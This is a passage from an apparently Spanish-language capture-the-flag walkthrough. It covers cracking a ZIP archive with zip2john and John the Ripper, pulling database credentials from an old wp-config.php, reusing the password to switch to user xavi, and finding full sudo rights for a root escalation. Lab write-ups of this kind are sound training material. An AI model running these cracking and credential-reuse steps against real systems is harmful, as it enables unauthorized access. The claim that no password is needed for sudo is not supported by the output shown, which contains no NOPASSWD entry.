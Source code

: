 1.  **Crear el Hash:** `zip2john wordpress.old.zip > archive_hash`
2.  **Crackear con John:**

```bash
$ john archive_hash --wordlist=/home/quiqu3h4ck/rockyou.txt
````

🔑 Contraseña Crackeada:
El cracking fue exitoso y reveló la contraseña del archivo ZIP: hero_gege@hotmail.com.

2. Descompresión y Extracción de Credenciales
Utilizamos la contraseña descubierta para descomprimir el archivo ZIP. Luego, examinamos el archivo wp-config.php dentro del directorio extraído (wordpress.old/).

<img width="585" height="671" alt="descomprimo el zip y dentro del archivo wpcongin clvaves" src="https://github.com/user-attachments/assets/edff2b91-9916-4e4d-a864-2b8cbdd99362" />

📝 Credenciales Encontradas:
Este archivo de configuración antiguo revela un nuevo par de credenciales de la base de datos:
````
Detalle, Valor
Usuario DB, xavi
Contraseña DB, P@ssw0rdxavi@)
````
Análisis: Al igual que con diego, se asume que este usuario de la base de datos (xavi) podría tener una cuenta de usuario local con la misma contraseña. Este patrón de reutilización es común en la sala.

## 🏆 Paso 14: Escalada de Privilegios Final a `root`

La contraseña **`P@ssw0rdxavi@)`**, obtenida del archivo ZIP crackeado, nos proporciona acceso al usuario **`xavi`**, el cual resulta ser el punto de escalada final.

### 📝 Objetivo
1.  Cambiar al usuario `xavi`.
2.  Enumerar los permisos `sudo` de `xavi`.
3.  Utilizar los permisos de `sudo` para obtener una *shell* de `root` y el *flag* final.

### 1. Escalada Horizontal a `xavi`
Utilizamos la contraseña recién crackeada para cambiar de usuario desde la *shell* de `gege` o `diego`.

<img width="783" height="298" alt="entramos como xavi y tiene todos los permiss" src="https://github.com/user-attachments/assets/6a48e4bb-f444-48d0-8dd1-f6b5cc15edc2" />

```bash
gege@ip-10-10-194-146:~$ su - xavi
Password: P@ssw0rdxavi@)
xavi@ip-10-10-194-146:~$ id
uid=1001(xavi) gid=1001(xavi) groups=1001(xavi),1005(internal)
````
2. Detección de Permisos de sudo
Una vez como xavi, comprobamos sus permisos de sudo con el comando sudo -l.

💡 Hallazgo Clave:
La salida de sudo -l es extremadamente permisiva:
````
User xavi may run the following commands on ip-10-10-194-146:
(ALL : ALL) ALL
````
Esto significa que el usuario xavi puede ejecutar cualquier comando (ALL) como cualquier usuario (ALL) sin necesidad de contraseña, incluyendo root. Esta es una vulnerabilidad de configuración de permisos grave.
